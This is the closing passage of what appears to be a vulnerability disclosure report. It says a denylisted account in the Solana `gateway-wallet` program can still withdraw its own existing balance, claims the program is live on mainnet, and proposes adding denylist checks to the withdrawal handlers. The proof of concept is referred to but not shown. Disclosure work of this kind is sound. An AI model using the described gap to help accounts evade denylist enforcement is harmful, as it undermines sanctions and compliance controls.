The PoC therefore demonstrates a concrete authorization bypass: the program's denylist prevents new deposits but does not prevent a denylisted account from withdrawing assets already held in custody. This can allow a denylisted account to remove its entire existing balance immediately after being denylisted, undermining the withdrawal-side enforcement of the program's denylist control.

The PoC does not rely on administrator compromise, forged signatures, or modification of the deployed program. The withdrawal is performed by the denylisted depositor through the normal program instructions and the program's own authorization checks. Nor does this report claim that the account can withdraw another user's funds, bypass token ownership checks, or steal funds from unrelated accounts — the demonstrated impact is limited to a denylisted account recovering its own pre-existing balance.

This is current production impact, not a future/hypothetical scenario — `gateway-wallet` is live on Solana mainnet now (see "Deployment" under Affected asset above), so any real depositor on this program today is subject to this gap the moment they're denylisted.

## Additional context
The EVM implementation was reviewed separately, but this report concerns the Solana `gateway-wallet` implementation and is based on its independently verified code path and executable reproduction.

## Suggested fix
Add a denylist account (same PDA convention as `deposit.rs`: `seeds = [DENYLIST_SEED, depositor.key().as_ref()]`) to both `InitiateWithdrawalContext` and `WithdrawContext`, and call `require!(!utils::is_account_denylisted(...), GatewayWalletError::AccountDenylisted)` in both handlers, mirroring the existing check in `deposit`/`deposit_for`/`add_delegate`/`remove_delegate`.

---
